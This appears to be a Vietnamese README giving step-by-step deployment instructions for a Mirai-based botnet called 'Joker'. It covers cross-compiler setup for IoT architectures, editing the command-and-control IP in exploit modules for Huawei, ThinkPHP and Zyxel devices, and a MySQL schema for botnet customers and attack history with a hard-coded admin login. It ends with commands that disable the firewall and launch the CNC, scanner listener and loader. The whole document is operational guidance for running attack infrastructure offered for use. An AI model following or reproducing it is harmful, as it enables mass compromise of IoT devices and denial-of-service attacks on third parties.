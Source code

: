 - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Cài đặt mọi thứ trên centos
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sao chép & Dán này: 
```
yum update -y
```
```
yum install epel-release -y
```
```
yum groupinstall "Development Tools" -y
```
```
yum install gmp-devel -y
```
```
ln -s /usr/lib64/libgmp.so.3  /usr/lib64/libgmp.so.10
```
```
yum install screen wget bzip2 gcc nano gcc-c++ electric-fence sudo git libc6-dev httpd xinetd tftpd tftp-server mysql mysql-server gcc glibc-static -y
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Cài đặt Golang:

```
rm -rf /usr/local/go
```
```
wget https://dl.google.com/go/go1.10.3.linux-amd64.tar.gz
```
nếu lỗi không tải xuống thì cài đặt wget
```
sha256sum go1.10.3.linux-amd64.tar.gz
```
```
sudo tar -C /usr/local -xzf go1.10.3.linux-amd64.tar.gz
```
```
export PATH=$PATH:/usr/local/go/bin
```
```
source ~/.bash_profile
```
```
rm -rf go1.10.3.linux-amd64.tar.gz
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sao chép & Dán này: 
```
mkdir /etc/xcompile
cd /etc/xcompile
```
```
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-i586.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-m68k.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mips.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mipsel.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-powerpc.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sh4.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sparc.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv4l.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv5l.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-armv6l.tar.bz2
wget https://landley.net/aboriginal/downloads/old/binaries/1.2.6/cross-compiler-armv7l.tar.bz2
```
```
tar -jxf cross-compiler-i586.tar.bz2; 
tar -jxf cross-compiler-m68k.tar.bz2
tar -jxf cross-compiler-mips.tar.bz2
tar -jxf cross-compiler-mipsel.tar.bz2
tar -jxf cross-compiler-powerpc.tar.bz2
tar -jxf cross-compiler-sh4.tar.bz2
tar -jxf cross-compiler-sparc.tar.bz2
tar -jxf cross-compiler-armv4l.tar.bz2
tar -jxf cross-compiler-armv5l.tar.bz2
tar -jxf cross-compiler-armv6l.tar.bz2
tar -jxf cross-compiler-armv7l.tar.bz2
```
```
rm -rf *.tar.bz2
mv cross-compiler-i586 i586
mv cross-compiler-m68k m68k
mv cross-compiler-mips mips
mv cross-compiler-mipsel mipsel
mv cross-compiler-powerpc powerpc
mv cross-compiler-sh4 sh4
mv cross-compiler-sparc sparc
mv cross-compiler-armv4l armv4l
mv cross-compiler-armv5l armv5l
mv cross-compiler-armv6l armv6l
mv cross-compiler-armv7l armv7l
```
```
cd /tmp
wget https://storage.googleapis.com/golang/go1.8.3.linux-amd64.tar.gz -q
tar -xzf go1.8.3.linux-amd64.tar.gz
mv go /usr/local/go
cd ~/
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Thay đổi IP:

```/bot/huawei.c``` (dòng 271)

```/bot/thinkphp.c``` (dòng 277)

```/bot/zyxel_scanner.c``` (dòng 278)

```/bot/includes.h```  (4 địa điểm)

```/cnc/main.go``` 

```/dlr/main.c```

```/loader/src/main.c``` (Dòng 30, 31, Hai lần trên 42)

```/scanListen.go```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Cài đặt mysql tạo mật khẩu root

Sao chép & Dán này: 
```
service mysqld start; mysql_secure_installation
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Đăng nhập vào mysql:

Sao chép & Dán này:  
```
mysql -u root -p
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sao chép & Dán này:
```
CREATE DATABASE Joker;
use Joker;
CREATE TABLE `history` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `user_id` int(10) unsigned NOT NULL,
  `time_sent` int(10) unsigned NOT NULL,
  `duration` int(10) unsigned NOT NULL,
  `command` text NOT NULL,
  `max_bots` int(11) DEFAULT '-1',
  PRIMARY KEY (`id`),
  KEY `user_id` (`user_id`)
);
 
CREATE TABLE `users` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `username` varchar(32) NOT NULL,
  `password` varchar(32) NOT NULL,
  `duration_limit` int(10) unsigned DEFAULT NULL,
  `cooldown` int(10) unsigned NOT NULL,
  `wrc` int(10) unsigned DEFAULT NULL,
  `last_paid` int(10) unsigned NOT NULL,
  `max_bots` int(11) DEFAULT '-1',
  `admin` int(10) unsigned DEFAULT '0',
  `intvl` int(10) unsigned DEFAULT '30',
  `api_key` text,
  PRIMARY KEY (`id`),
  KEY `username` (`username`)
);
 
CREATE TABLE `whitelist` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `prefix` varchar(16) DEFAULT NULL,
  `netmask` tinyint(3) unsigned DEFAULT NULL,
  PRIMARY KEY (`id`),
  KEY `prefix` (`prefix`)
);
INSERT INTO users VALUES (NULL, 'clown', 'clown1337', 0, 0, 0, 0, -1, 1, 30, '');

CREATE TABLE `logins` (
  `id` int(11) NOT NULL,
  `username` varchar(32) NOT NULL,
  `action` varchar(32) NOT NULL,
  `ip` varchar(15) NOT NULL,
  `timestamp` timestamp NOT NULL DEFAULT CURRENT_TIMESTAMP
) ENGINE=InnoDB DEFAULT CHARSET=latin1;
exit;
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sao chép & Dán này: 
```
cd ~/; chmod 0777 * -R; sh build.sh
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Sao chép & Dán này: 
```
python payload.py; service httpd restart 
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
```
iptables -F;service iptables stop 
```
```
service httpd restart  
```
```
service mysqld restart
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
```
nano /usr/include/bits/typesizes.h
```
cuộn xuống và chỉnh sửa 1024 thành 999999
SAU ĐÓ LƯU BẰNG: ctrl X rồi Y
Sao chép & Dán 
```
ulimit -n999999; ulimit -u999999; ulimit -e999999
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
```
cd ~/
screen -S cnc ./cnc
```
CTRL A D
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
```
cd loader/
screen -S rep ./scanListen 
```
CTRL A D
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
```
screen -S loader
./run.sh
```
CTRL A D
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[Nguồn](https://github.com/USBBios/Joker-Mirai-Botnet-Source-V1)
